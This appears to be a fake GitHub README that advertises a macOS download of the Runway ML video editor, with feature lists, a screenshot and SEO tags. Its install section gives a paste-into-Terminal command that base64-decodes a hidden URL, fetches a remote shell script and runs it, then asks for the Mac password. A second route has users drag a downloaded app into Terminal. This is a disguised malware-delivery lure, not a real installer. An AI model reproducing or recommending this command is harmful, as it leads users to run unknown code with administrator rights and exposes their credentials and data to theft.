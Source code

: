 # Runway ML — Download For Mac OS  
Runway ML is a powerful AI video and image editing platform for creators. Install it easily on macOS by following the instructions below. 🚀

[![Download for Mac](https://img.shields.io/badge/Download%20for-Mac-blue?logo=apple&style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/runwayml)

If the download button doesn’t work, follow the instructions below using your Terminal.

---

## 📦 How to Install Runway ML For Mac

### Installation via .dmg:

1. Click the download button above to get the .dmg file.
2. Open the .dmg installer and drag the app to your Applications folder.
3. Open Terminal and drag the installed `.app` file into the Terminal window.
4. Press **Return** and input your Mac password if prompted.

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open Terminal and paste the command.
3. Press **Return**, then enter your Mac password to proceed.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Runway ML

✨ AI Video Editing  
🧠 Text-to-Video & Text-to-Image generation  
🎨 Real-time Style Transfer  
📹 Background Removal  
🧰 Integrated Creative Suite  
☁️ Cloud Rendering with Mac Support

---

## About Runway ML

Runway ML for Mac is an advanced AI tool built for creators, filmmakers, designers, and developers. With an intuitive interface and real-time rendering capabilities, Runway allows users to harness cutting-edge machine learning models for creative tasks without writing code.

The macOS version of Runway ML offers seamless integration with macOS hardware, including support for the latest M-series chips. Whether you’re editing videos, creating AI-generated images, or experimenting with generative media, Runway provides an efficient and powerful toolset.

By downloading Runway ML for Mac, users can access AI-powered tools like text-to-video, frame interpolation, and object detection — all within a smooth, drag-and-drop UI. The app is constantly updated with the latest in AI research, ensuring you stay ahead of the curve.

Runway ML is perfect for Mac users looking to expand their creative workflow with machine learning. With fast installation and compatibility with macOS Ventura and Sonoma, it's never been easier to get started.

---

## ✅ Advantages of Runway ML

🚀 Instant installation on Mac  
🖼️ Support for AI image & video models  
🧩 No coding required  
🔁 Real-time feedback  
🎯 Compatible with M1/M2/M3 chips  
📤 One-click export to cloud

---

## 🖼 Preview (Images)

![Runway ML Interface](https://www.elegantthemes.com/blog/wp-content/uploads/2023/10/A-screenshot-of-Runway-AIs-text-to-video-tool.jpg)  
*The clean and powerful interface of Runway ML*



---

## 🔍 Tags

runway ml mac download, runway ml for macos, download runway ml macbook, runway ai mac, install runway ml mac free, runway mac editor, download runway ml app mac, run way ml, runway ai video, runwayml com, runwayml ai, runaway ml, runway ml ai, runway video editor, runwayml, runway ai, runway ml
